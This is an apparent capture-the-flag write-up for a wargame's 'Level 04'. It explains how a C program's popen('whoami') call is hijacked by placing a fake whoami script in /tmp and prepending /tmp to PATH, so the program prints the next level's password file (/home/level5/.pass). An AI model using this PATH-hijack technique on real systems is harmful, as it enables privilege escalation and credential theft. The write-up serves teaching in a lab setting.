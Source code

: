 # Level 04

The code is as follows:

```
int main() {
        char username[1024];
        FILE* f = popen("whoami","r");
        fgets(username, sizeof(username), f); 
        printf("Welcome %s", username);

        return 0;
}
```

It's important to note that `popen` works by creating a new shell.  In this case
it will execute `/bin/sh -c "whoami".

We *know* that the `sh` command will obey anything defined in our `${PATH}` variable.

## Create a fake `whoami`

Create a file in `/tmp/whoami` that looks like this...

```
#!/bin/bash
cat /home/level5/.pass
```

## Modify the `${PATH}`

Change the `${PATH}` to be...

```
export PATH=/tmp:${PATH}
```

## Done...

When you run the program, it will find our fake `whoami` program first and 
execute it.
